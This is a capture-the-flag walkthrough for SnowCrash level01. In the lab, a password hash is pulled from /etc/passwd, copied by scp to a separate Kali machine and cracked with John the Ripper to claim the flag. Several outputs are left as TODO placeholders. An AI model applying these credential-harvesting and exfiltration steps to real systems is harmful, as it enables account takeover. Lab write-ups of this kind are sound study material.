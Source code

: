 # level01

Get incredibly lucky and notice a password hash in `/etc/passwd`
```bash
level01:~ $ grep -R flag01 /etc/
#TODO output
level01:~ $ grep flag01 /etc/passwd > /tmp/passwd
level01:~ $ scp /tmp/passwd kali@kali:flag01pass
```

The hash is a descrypt, traditional `crypt(3)` which is long obsolete and insecure.


Crack hash with John-The-Ripper
```bash
root@kali:~# john --show flag01pass
#TODO output
root@kali:~#
```

Claim flag
```bash
level01@SnowCrash:~ $ rm -f /tmp/passwd
level01@SnowCrash:~ $ su flag01
#TODO password
flag01@SnowCrash:~ $ getflag
#TODO output
level02@SnowCrash:~ $ su level02
#TODO more output
```
